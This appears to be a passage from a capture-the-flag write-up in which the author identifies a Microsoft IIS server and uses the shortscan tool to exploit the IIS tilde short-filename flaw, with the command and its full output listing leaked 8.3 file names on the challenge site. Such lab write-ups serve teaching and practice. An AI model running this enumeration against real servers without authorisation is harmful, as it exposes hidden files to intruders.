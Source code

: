 I immediately think of IIS shorthand vulnerabilities, and I decided to check Wappalyzer to confirm my suspicions.

![wappalyzer.png](images/24-secedu/wappalyzer.png)

Bang! I won't go into to too much detail over the functionality of the exploit ([you can read more here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#microsoft-iis-tilde-character-vulnerability-feature-short-file-folder-name-disclosure)) but it essentially allows enumeration of files in folders on a IIS webserver, it leaks the first **6** characters of the filename and first **3** of the extension.

I use shortscan to get the job done:
```bash
$ shortscan "http://win.secedu.site"                                                                                                                  127 ↵
🌀 Shortscan v0.9.0 · an IIS short filename enumeration tool by bitquark

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
GIT~1.TXT            GIT.TXT?   
ANNOUN~1             ANNOUN?             ANNOUNCEMENTS
WELLDO~1.TXT         WELLDO?.TXT? 
════════════════════════════════════════════════════════════════════════════════

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/ANNOUNCEMENTS/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
COMPRE~1             COMPRE?             COMPRESSED
════════════════════════════════════════════════════════════════════════════════

════════════════════════════════════════════════════════════════════════════════
URL: http://win.secedu.site/ANNOUNCEMENTS/COMPRESSED/
Running: Microsoft-IIS/10.0
Vulnerable: Yes!
════════════════════════════════════════════════════════════════════════════════
OTHERF~1.TXT         OTHERF?.TXT? 
VERYSE~1.TXT         VERYSE?.TXT? 
════════════════════════════════════════════════════════════════════════════════

Finished! Requests: 744; Retries: 0; Sent 153260 bytes; Received 308687 bytes
```
Ok! So some new entries:
- `WELLDO~1.TXT` in the site's root
- `OTHERF~1.TXT` and `VERYSE~1.TXT` in the `compressed` folder
